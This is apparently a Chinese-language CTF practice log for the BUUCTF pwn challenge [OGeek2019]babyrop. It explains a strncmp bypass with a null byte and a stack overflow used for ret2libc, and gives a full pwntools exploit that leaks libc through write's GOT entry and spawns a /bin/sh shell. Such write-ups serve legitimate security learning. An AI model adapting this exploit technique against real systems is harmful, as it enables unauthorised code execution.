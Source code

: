 # [BUUCTF-Pwn]刷题记录1

力争从今天(2021.3.23)开始每日至少一道吧……在这里记录一些栈相关的题目。

最近更新(2021.5.10)

**如果我的解题步骤中有不正确的理解或不恰当的表述，希望各位师傅在评论区不吝赐教！非常感谢！**

# [OGeek2019]babyrop

![image-20210323125655409](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736479.png)

/dev/random和/dev/urandom是unix系统提供的产生随机数的设备，先产生一个随机数

![image-20210323125757017](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736144.png)



输入放到buf里，然后与随机数比较，不等的话程序就结束了，于是将输入的第一个字母弄成'\0'，以绕过strncmp

![image-20210323134424388](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736568.png)

后面一个函数，传入的参数a1是上一个函数的返回值，也就是buf[7]，所以将输入的第8位弄大点（不超过0xff）以构造溢出，看了下栈的情况0xC8不够溢出

然后是常规的ret2libc

exp如下：

```python
from pwn import *
#p = process('./pwn')
p = remote('node3.buuoj.cn', 29919)
e = ELF('./pwn')
payload1 = '\0' + b'a' * 6 + '\xff'
p.sendline(payload1)
p.recvuntil('Correct\n')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
libc = ELF('libc-2.23.so')
write_plt_addr = e.plt['write']
write_got_addr = e.got['write']
main_addr = 0x08048825
payload2 = b'a' * 235 + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)
p.sendline(payload2)
write_true_addr = u32(p.recv().ljust(4, '\0'))
libc_base_addr = write_true_addr - libc.symbols['write']
system_true_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search('/bin/sh').next()
p.sendline(payload1)
p.recvuntil('Correct\n')
payload3 = b'a' * 235 + p32(system_true_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
p.sendline(payload3)
p.interactive()
```
